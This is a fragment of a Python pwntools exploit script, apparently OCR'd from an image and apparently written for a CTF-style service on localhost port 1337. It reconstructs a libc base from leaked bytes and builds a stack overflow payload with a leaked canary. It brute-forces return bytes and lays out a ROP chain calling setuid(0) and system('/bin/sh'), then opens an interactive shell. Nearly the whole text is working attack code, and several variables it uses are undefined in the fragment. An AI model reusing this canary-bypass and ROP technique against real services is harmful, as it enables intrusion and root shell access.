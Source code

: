 print(libc_list)
libc_str="0x7f"
for i in range(len(libc_list)):
    tt=hex(libc_list[-(i+1)])[2:]
    if(len(tt)!=2):
        tt='0'+tt
    libc_str+=tt
libc_str+="b3"
print(libc_str)
libc=int(libc_str,16)-0x270b3
print(hex(libc))

payload=b'b'*0x38+p64(canary)+p64(0)+p64(libc)
p=remote("127.0.0.1","1337")
p.send(payload)
'''
basic_list=[]
for round in range(7):
    for i in range(0xff):
        p=remote("127.0.0.1","1337")
        test_payload=payload+i.to_bytes(1, byteorder='little')
        p.send(test_payload)
        res_str=str(p.recvall())
        if res_str.find("Goodbye!")!=-1:
            p.close()
            payload+=i.to_bytes(1, byteorder='little')
            basic_list.append(i)
            break
        p.close()
print(basic_list)


bin_sh_offset=0x1b75aa
setuid_add=libc_basic+libc.symbols["setuid"]
sys_add=libc_basic+libc.symbols["system"]
bin_sh=libc_basic+bin_sh_offset

p=remote("127.0.0.1","1337")
payload=b'b'*0x38+p64(canary)+p64(0)+p64(rdi_ret)+p64(0)+p64(rsi_r15_ret)+p64(0)*2+p64(setuid_add)+p64(rdi_ret)+p64(bin_sh)+p64(rsi_r15_ret)+p64(0)*2+p64(sys_add)
p.send(payload)
'''
p.interactive()
